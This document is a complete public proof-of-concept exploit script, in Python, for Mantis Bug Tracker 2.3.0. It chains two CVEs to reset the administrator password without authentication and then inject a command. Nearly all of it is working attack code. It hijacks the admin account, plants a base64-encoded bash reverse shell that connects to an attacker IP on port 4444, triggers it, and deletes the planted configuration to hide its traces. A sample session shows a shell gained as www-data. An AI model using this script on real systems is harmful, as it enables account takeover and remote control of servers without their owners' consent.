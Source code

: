 POC
---

    # Exploit Title: Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated)
    # Date: 2020-09-17
    # Vulnerability Discovery: hyp3rlinx, permanull
    # Exploit Author: Nikolas Geiselman
    # Vendor Homepage: https://mantisbt.org/
    # Software Link: https://mantisbt.org/download.php
    # Version: 1.3.0/2.3.0
    # Tested on: Ubuntu 16.04/19.10/20.04
    # CVE : CVE-2017-7615, CVE-2019-15715
    # References:
    # https://mantisbt.org/bugs/view.php?id=26091
    # https://www.exploit-db.com/exploits/41890
    '''
    This exploit chains together two CVE's to achieve unauthenticated remote code execution.
    The first portion of this exploit resets the Administrator password (CVE-2017-7615) discovered by John Page a.k.a hyp3rlinx, this portion was modified from the original https://www.exploit-db.com/exploits/41890.
    The second portion of this exploit takes advantage of a command injection vulnerability (CVE-2019-15715) discovered by 'permanull' (see references).
    Usage:
    Set netcat listener on port 4444
    Send exploit with "python exploit.py"
    Example output:
    kali@kali:~/Desktop$ python exploit.py
    Successfully hijacked account!
    Successfully logged in!
    Triggering reverse shell
    Cleaning up
    Deleting the dot_tool config.
    Deleting the relationship_graph_enable config.
    Successfully cleaned up
    kali@kali:~/Desktop$ nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [192.168.116.135] from (UNKNOWN) [192.168.116.151] 43978
    bash: cannot set terminal process group (835): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ubuntu:/var/www/html/mantisbt-2.3.0$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    '''
    import requests
    from urllib import quote_plus
    from base64 import b64encode
    from re import split
    class exploit():
        def __init__(self):
            self.s = requests.Session()
            self.headers = dict()  # Initialize the headers dictionary
            self.RHOST = "192.168.116.151"  # Victim IP
            self.RPORT = "80"  # Victim port
            self.LHOST = "192.168.116.135"  # Attacker IP
            self.LPORT = "4444"  # Attacker Port
            self.verify_user_id = "1"  # User id for the target account
            self.realname = "administrator"  # Username to hijack
            self.passwd = "password"  # New password after account hijack
            self.mantisLoc = "/mantisbt-2.3.0"  # Location of mantis in URL
            self.ReverseShell = "echo " + b64encode(
                "bash -i >& /dev/tcp/" + self.LHOST + "/" + self.LPORT + " 0>&1") + " | base64 -d | /bin/bash"  # Reverse shell payload
        def reset_login(self):
            # Request # 1: Grab the account update token
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/verify.php?id=' + self.verify_user_id + '&confirm_hash='
            r = self.s.get(url=url, headers=self.headers)
            if r.status_code == 404:
                print "ERROR: Unable to access password reset page"
                exit()
            account_update_token = r.text.split('name="account_update_token" value=')[1].split('"')[1]
            # Request # 2: Reset the account password
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/account_update.php'
            data = "account_update_token=" + account_update_token + "&password=" + self.passwd + "&verify_user_id=" + self.verify_user_id + "&realname=" + self.realname + "&password_confirm=" + self.passwd
            self.headers.update({'Content-Type': 'application/x-www-form-urlencoded'})
            r = self.s.post(url=url, headers=self.headers, data=data)
            if r.status_code == 200:
                print "Successfully hijacked account!"
        def login(self):
            data = "return=index.php&username=" + self.realname + "&password=" + self.passwd + "&secure_session=on"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/login.php'
            r = self.s.post(url=url, headers=self.headers, data=data)
            if "login_page.php" not in r.url:
                print "Successfully logged in!"
        def CreateConfigOption(self, option, value):
            # Get adm_config_set_token
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/adm_config_report.php'
            r = self.s.get(url=url, headers=self.headers)
            adm_config_set_token = r.text.split('name="adm_config_set_token" value=')[1].split('"')[1]
            # Create config
            data = "adm_config_set_token=" + adm_config_set_token + "&user_id=0&original_user_id=0&project_id=0&original_project_id=0&config_option=" + option + "&original_config_option=&type=0&value=" + quote_plus(
                value) + "&action=create&config_set=Create+Configuration+Option"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/adm_config_set.php'
            r = self.s.post(url=url, headers=self.headers, data=data)
        def TriggerExploit(self):
            print "Triggering reverse shell"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/workflow_graph_img.php'
            try:
                r = self.s.get(url=url, headers=self.headers, timeout=3)
            except:
                pass
        def Cleanup(self):
            # Delete the config settings that were created to send the reverse shell
            print "Cleaning up"
            cleaned_up = False
            cleanup = requests.Session()
            CleanupHeaders = dict()
            CleanupHeaders.update({'Content-Type': 'application/x-www-form-urlencoded'})
            data = "return=index.php&username=" + self.realname + "&password=" + self.passwd + "&secure_session=on"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/login.php'
            r = cleanup.post(url=url, headers=CleanupHeaders, data=data)
            ConfigsToCleanup = ['dot_tool', 'relationship_graph_enable']
            for config in ConfigsToCleanup:
                # Get adm_config_delete_token
                url = "http://" + self.RHOST + ":" + self.RPORT + self.mantisLoc + "/adm_config_report.php"
                r = cleanup.get(url=url, headers=self.headers)
                test = split('<!-- Repeated Info Rows -->', r.text)
                # First element of the response list is garbage, delete it
                del test[0]
                cleanup_dict = dict()
                for i in range(len(test)):
                    if config in test[i]:
                        cleanup_dict.update({'config_option': config})
                        cleanup_dict.update({'adm_config_delete_token':
                                                 test[i].split('name="adm_config_delete_token" value=')[1].split('"')[1]})
                        cleanup_dict.update({'user_id': test[i].split('name="user_id" value=')[1].split('"')[1]})
                        cleanup_dict.update({'project_id': test[i].split('name="project_id" value=')[1].split('"')[1]})
                # Delete the config
                print "Deleting the " + config + " config."
                url = "http://" + self.RHOST + ":" + self.RPORT + self.mantisLoc + "/adm_config_delete.php"
                data = "adm_config_delete_token=" + cleanup_dict['adm_config_delete_token'] + "&user_id=" + cleanup_dict[
                    'user_id'] + "&project_id=" + cleanup_dict['project_id'] + "&config_option=" + cleanup_dict[
                           'config_option'] + "&_confirmed=1"
                r = cleanup.post(url=url, headers=CleanupHeaders, data=data)
                # Confirm if actually cleaned up
                r = cleanup.get(url="http://" + self.RHOST + ":" + self.RPORT + self.mantisLoc + "/adm_config_report.php",
                                headers=CleanupHeaders, verify=False)
                if config in r.text:
                    cleaned_up = False
                else:
                    cleaned_up = True
            if cleaned_up == True:
                print "Successfully cleaned up"
            else:
                print "Unable to clean up configs"
    exploit = exploit()
    exploit.reset_login()
    exploit.login()
    exploit.CreateConfigOption(option="relationship_graph_enable", value="1")
    exploit.CreateConfigOption(option="dot_tool", value=exploit.ReverseShell + ';')
    exploit.TriggerExploit()
    exploit.Cleanup()